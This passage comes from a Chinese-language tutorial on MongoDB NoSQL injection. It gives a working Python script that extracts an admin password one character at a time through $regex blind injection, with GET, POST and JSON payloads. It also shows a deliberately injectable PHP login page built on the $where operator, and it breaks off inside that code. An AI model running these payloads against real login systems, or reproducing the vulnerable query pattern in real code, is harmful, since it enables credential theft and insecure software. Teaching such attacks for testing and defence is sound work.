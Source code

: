 ```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c


# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```

**$where 操作符布尔盲注**

`$where` 操作符前面我们已经说到了，当页面没有数据会显时，我们也可以通过闭合 JavaScript 的代码构造盲注。这里要提一下，在 MongoDB 2.4 之前，通过 `$where` 操作符可以访问到 Mongo Shell 中的全局函数和属性，如 `db`，也就是说可以在自定义的函数里获取数据库的所有信息。

我们用下面的代码演示：

- index.php

```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);

$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    '$where' => "function() {if(this.username == '".$username."' && this.password == '".$password."') {return true;}}"
));
$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count>0) {
    foreach ($result as $user) {
        $user=(array)$user;
        echo '====Login Success====<br>';
```